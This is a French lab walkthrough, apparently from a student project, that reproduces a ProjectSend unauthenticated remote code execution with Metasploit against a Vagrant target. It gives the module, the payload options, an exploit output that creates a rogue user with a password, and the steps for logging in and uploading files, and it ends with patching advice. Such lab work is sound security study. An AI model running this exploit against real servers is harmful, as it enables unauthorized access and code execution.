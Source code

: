 * tester avec un ping 
`ping christian-sacha.com`

* verifier qu'on a bien access à l'app sur le reseau, dans un navigateur:
`http://christian-sacha.com/` avec le user `client` pass `client`
comme [ici](./Attack-host/client_connected.png)

* lancer l'exploit
`msfconsole`
* Charger l'exploit
`use exploit/linux/http/projectsend_unauth_rce` # si jamais une erreur se produit comme quoi le module n'existe pas sortir de msfconsole `exit` et faire sudo `apt install -y metasploit-framework` puis entrer a nouveau `msfconsole`

* Configurer l'exploit et definir la cible   # ça ressemble à ça
```
set RHOSTS <ip_du_serveur_projectsend>
set RPORT 80
set TARGETURI /
set PAYLOAD php/exec
set CMD "touch /tmp/exploit_success"
show targets     # ex de sortie
set TARGET <target-id>  # il faut Remplacer <target-id> par l'id de de la cible
```
un exmple des commandes à effectuer sont fournies [ici](./Attack-host/exploit_cmd.png)

* lancer l'exploit `exploit` le resultat est similaire à [exploit_result](./Attack-host/exploit_result.png)

ou l'utilisateur william a été crée avec son pass `User william created with password SubehADw` 

* verifier qu'on a desormais access à l'app avec le user creer
`http://christian-sacha.com/`  , on voit bien ici que un compte hacker est connectée [hacker_connected](./Attack-host/hacker_connected.png)


# Exploitation 
Une fois le hacker a reussi l'exploit se connecter à l'app `http://christian-sacha.com/` avec le compte admin avec user `admin` et pass `admin`
* definir les actions des clients dans l'application: `Options > Clients > Files`  comme  [ici](./Attack-host/define_clients_actions.png) et `enregistrer`

* se connecter avec le compte hacker pour bien verifier qu'on peut bien upload les fichiers comme [ici](./Attack-host/hacker_actions.png)

* pour tout nettoyer a la fin `vagrant destroy -f` dans les repertoires Target_host et Attack_host


### Limiter l’impact de l’exploitation de la faille

En tant qu'administrateur, la première chose à mettre en place en connaissance de la faille est de mettre à jour ProjectSend vers la version r1720 ou ultérieure pour corriger au plus vite cette vulnérabilité. Le patch donnant la correction de la faille est depuis longtemps (16 mai 2023 !) disponible sur le dépôt [GituHub](https://github.com/projectsend/projectsend/commit/193367d937b1a59ed5b68dd4e60bd53317473744) de ProjectSend. Si la mise à jour n'est possible dans les plus brefs délais, alors il est possible de mettre en place certaines des actions suivantes :
